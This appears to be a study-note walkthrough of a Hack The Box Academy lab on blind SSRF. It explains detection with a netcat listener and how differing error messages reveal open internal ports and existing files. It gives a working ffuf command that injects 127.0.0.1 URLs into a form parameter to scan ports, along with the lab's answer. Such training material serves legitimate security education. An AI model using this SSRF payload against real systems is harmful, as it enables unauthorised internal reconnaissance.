 ```yaml
---
sticker: lucide//server
---
```


# Blind SSRF

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called `blind` SSRF vulnerabilities because we cannot see the response. As such, all of the exploitation vectors discussed in the previous sections are unavailable to us because they all rely on us being able to inspect the response. Therefore, the impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

***

### Identifying Blind SSRF

The sample web application behaves just like in the previous section. We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a `netcat` listener:

```shell-session
smoothment@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

However, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request; instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_1.png)

***

### Exploiting Blind SSRF

Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with `Something went wrong!` for closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_2.png)

However, if a port is open and responds with a valid HTTP response, we get a different error message:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_3.png)

Depending on how the web application catches unexpected errors, we might be unable to identify running services that do not respond with valid HTTP responses. For instance, we are unable to identify the running MySQL service using this technique:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_4.png)

Furthermore, while we cannot read local files like before, we can use the same technique to identify existing files on the filesystem. That is because the error message is different for existing and non-existing files, just like it differs for open and closed ports:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_5.png)

For invalid files, the error message is different:

![image](https://academy.hackthebox.com/storage/modules/145/ssrf/ssrf_blind_6.png)

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250212123042.png)

We know we are dealing with blind SSRF, when we try to point at an invalid resource of the server, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212123247.png)

We get an error message saying `Something went wrong!`, what about if we point at a valid resource:

![](gitbook/cybersecurity/images/Pasted%20image%2020250212123337.png)

We get a different error message, since we need to enumerate ports, we can use ffuf in the following way:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!'
```

In order to create our `ports.txt` wordlist, we can use the following command:

```
seq 1 65535 > ports.txt
```

Once we've fuzzed, we get the following:

```
ffuf -w ports.txt:FUZZ -u http://10.129.70.117/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ&date=2024-01-01" -fr 'Something went wrong!' -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.70.117/index.php
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something went wrong!
________________________________________________

5000                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 111ms]
80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 3977ms]
```

Answer is `5000`
